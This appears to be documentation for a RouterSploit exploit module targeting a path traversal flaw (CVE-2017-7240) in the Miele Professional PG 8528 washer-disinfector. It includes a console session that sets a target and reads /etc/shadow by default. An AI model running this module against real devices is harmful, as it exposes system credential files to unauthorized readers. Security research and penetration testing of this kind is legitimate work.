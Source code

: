 # Miele Professional PG 8528 Path Traversal

## Description
Module exploits Miele Professional PG 8528 Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Jens Regel, Schneider & Wulf EDV-Beratung GmbH & Co. KG # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7240](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7240)
* [https://www.exploit-db.com/exploits/41718/](https://www.exploit-db.com/exploits/41718/)

## Vulnerable devices
* Miele Professional PG 8528 PST10

## Usage
```
rsf > use exploits/miele/pg8528_path_traversal
rsf (Miele Professional PG 8528 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read


rsf (Miele Professional PG 8528 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Miele Professional PG 8528 Path Traversal) > run
[*] Running module...
```
